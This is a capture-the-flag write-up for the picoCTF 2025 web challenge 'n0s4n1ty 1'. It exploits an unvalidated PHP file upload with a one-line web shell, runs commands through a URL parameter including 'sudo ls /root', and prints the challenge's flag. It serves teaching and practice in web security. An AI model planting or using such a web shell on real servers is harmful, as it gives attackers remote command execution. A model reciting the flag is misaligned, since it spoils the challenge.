




# :briefcase: n0s4n1ty 1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Prince Niyonshuti N.`
- **Date**: `19/05/2025`

---

# :pencil: Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application here!

---

# :hammer_and_wrench: Solution

1. Access the link

    

2. Try uploading any file

    

3. Because the file upload functionality is written in PHP (as seen in the page source), we will try writing a PHP script that allows executing system commands

    ```php
    <?php system($_GET["command"]); ?>
    ```
    
    Save to PHP file

4. Upload that file to website `>` Access that file via the displayed path `>` Because we haven't entered parameter yet, it will displayed like that 

    

    Enter the URL with `?command=ls`

    

    So it works `>` Okay, since our flag is located in the `/root` directory, enter `sudo ls /root`

    

    Read it

    

---

# :white_flag: Flag

> picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}

---

# :writing_hand: Notes

1. `system` — Execute an external program and display the output.
2. File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

---

# :books: Resources

1. [PHP: system - Manual](https://www.php.net/manual/en/function.system.php)
2. [File uploads | Web Security Academy](https://portswigger.net/web-security/file-upload)
3. [File Upload Vulnerabilities: Advanced Exploitation Guide](https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities)
